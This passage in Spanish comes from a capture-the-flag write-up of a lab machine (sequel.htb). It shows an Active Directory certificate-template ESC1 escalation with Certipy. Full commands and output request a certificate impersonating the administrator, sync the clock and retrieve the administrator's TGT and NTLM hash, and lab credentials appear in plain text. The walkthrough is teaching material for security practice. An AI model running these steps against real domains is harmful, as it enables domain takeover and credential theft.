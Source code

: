 ### Escalada ESC1 y acceso a administrator
Para la mayoria de escaladas se puede encontrar la forma de vulnerarlo mediante una busqueda en internet, o lo mas fiable que encuentro es ir al repositorio del gran "ly4k" (https://github.com/ly4k/Certipy/wiki/06-%e2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu).
Aca se puede ver claramente la forma de escalar, es bastante facil.
Primero se pide el certificado pero esperando impersonar al administrator, asi colocando su nombre como "upn" y esperando obtener su clave pfx
~~~bash
certipy-ad req -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip '10.10.11.202' -target 'dc.sequel.htb' -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'administrator@sequel.htb'                        
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
~~~
Efectivamente se obtuvo la clave pfx del usuario administrator, ahora solo es cosa de obtener su hash NTLM con la misma herramienta.
Pero sin antes sincronizar el reloj con el servidor porque el servicio kerberos es muy estricto con ello.
~~~bash
sudo ntpdate -u 10.10.11.202                                          
[sudo] password for kali: 
2025-10-31 20:43:51.863857 (-0400) +28800.539258 +/- 0.104272 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28800.539258
~~~
Ahora si impersonar al adminsitrator.
~~~bash
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.202'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f<SNIP>4ee
~~~
Obteniendo asi su hash NTLM.

---
## Root Flag
